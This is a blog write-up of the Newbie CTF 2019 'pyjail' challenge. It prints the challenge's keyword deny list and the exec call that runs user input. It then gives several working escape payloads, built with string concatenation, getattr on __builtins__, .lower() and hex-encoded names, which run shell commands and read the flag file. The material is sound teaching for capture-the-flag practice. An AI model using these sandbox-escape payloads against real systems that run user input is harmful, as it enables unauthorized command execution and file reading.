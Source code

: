 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019) - DSPYT"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
time_read: "5 min"
tags: ["Python", "ctf", "ethical-hacking"]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed, since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

![Python jail Escape](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">Hi! Welcome to pyjail!
<span style="color: #666666">========================================================================</span>
<span style="color: #60a0b0; font-style: italic">#! /usr/bin/python3</span>
<span style="color: #60a0b0; font-style: italic">#-*- coding:utf-8 -*-</span>
def main<span style="color: #666666">()</span>:
print<span style="color: #666666">(</span>“Hi! Welcome to pyjail!”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>open<span style="color: #666666">(</span>__file__<span style="color: #666666">)</span>.read<span style="color: #666666">())</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“RUN”<span style="color: #666666">)</span>
<span style="color: #bb60d5">text</span> <span style="color: #666666">=</span> input<span style="color: #666666">(</span>‘&gt;&gt;&gt; ‘<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">for </span>keyword in <span style="color: #666666">[</span>‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’<span style="color: #666666">]</span>:
<span style="color: #007020; font-weight: bold">if </span>keyword in text:
print<span style="color: #666666">(</span>“No!!!”<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">return</span>;
<span style="color: #007020; font-weight: bold">else</span>:
<span style="color: #007020">exec</span><span style="color: #666666">(</span>text<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">if </span><span style="color: #bb60d5">__name__</span> <span style="color: #666666">==</span> “__main__”:
main<span style="color: #666666">()</span>
<span style="color: #666666">========================================================================</span>
RUN
</pre></div>

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called “import” and pass it the input “os”. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **builtins** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="color: #4070a0">&#39;__builtins__&#39;</span>], <span style="color: #4070a0">&#39;__im&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;port__&#39;</span>)(<span style="color: #4070a0">&#39;o&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;s&#39;</span>), <span style="color: #4070a0">&#39;sys&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;tem&#39;</span>)(<span style="color: #4070a0">&#39;ls .&#39;</span>))
<span style="color: #888888">bin</span>
<span style="color: #888888">boot</span>
<span style="color: #888888">dev</span>
<span style="color: #888888">etc</span>
<span style="color: #888888">home</span>
<span style="color: #888888">lib</span>
<span style="color: #888888">lib32</span>
<span style="color: #888888">lib64</span>
<span style="color: #888888">libx32</span>
<span style="color: #888888">media</span>
<span style="color: #888888">mnt</span>
<span style="color: #888888">opt</span>
<span style="color: #888888">proc</span>
<span style="color: #888888">root</span>
<span style="color: #888888">run</span>
<span style="color: #888888">sbin</span>
<span style="color: #888888">srv</span>
<span style="color: #888888">sys</span>
<span style="color: #888888">tmp</span>
<span style="color: #888888">usr</span>
<span style="color: #888888">var</span>
<span style="color: #888888">0</span>
<span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>__im<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>port__<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>o<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>s<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>sys<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>tem<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>cat home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>))

<span style="color: #888888">KorNewbie{H311o*h0w*@r3_y0u_d0lng?}</span>

</pre></div>

Another solution to the Capture the Flag challenge is to use lower() string method:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #888888">&gt;&gt;&gt;__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)</span>
</pre></div>

We could also encode the strings to display the hidden key:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(main, <span style="border: 1px solid #FF0000">‘</span>__globals__<span style="border: 1px solid #FF0000">’</span>)[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>\x6f\x70\x65\x6e<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span><span style="color: #666666">/</span>home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>, <span style="border: 1px solid #FF0000">‘</span>rb<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>\x72\x65\x61\x64<span style="border: 1px solid #FF0000">’</span>)())
<span style="color: #888888">b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}</span>
</pre></div>

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
